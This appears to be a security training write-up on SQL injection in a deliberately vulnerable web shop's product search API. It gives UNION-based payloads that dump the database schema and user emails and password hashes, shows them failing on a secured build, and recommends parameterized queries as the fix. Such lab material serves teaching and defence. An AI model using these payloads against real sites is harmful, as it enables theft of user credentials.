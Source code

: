 # SQL Injection - Search API
## How To (Vulnerable Website)
1. Go to vulnerable website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. Verify that it returns the entire DB schema and data in the browser

<img src="../how-to-images/sql-injection-search-dbschema.png" width="700"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to 
`{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. The data returned in the browser includes the users id as the value of `price` and their hashed passwords as value of `deluxePrice`

<img src="../how-to-images/sql-injection-search-users-list.png" width="700"  alt="sql-injection-login-credentials"/>

## How To (Secured Website)
1. Go to secured website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. It does not return any data
   (update image)

   <img src="../how-to-images/sql-injection-login-credentials.png" width="288"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to
   `{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. It does not return any data
   (insert image)

## Root cause
The root cause of the issue is that raw SQL was being used in the search api (routes/search.ts)
```
`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') 
AND deletedAt IS NULL) ORDER BY name`)
```

## Mitigations
**Use of Prepared Statements:** Use prepared statements with parameterized queries to prevent SQL injection.
This technique is where the database pre-compiles SQL code and stores the results, separating it from data.


Authored by: Elizabeth Mayer
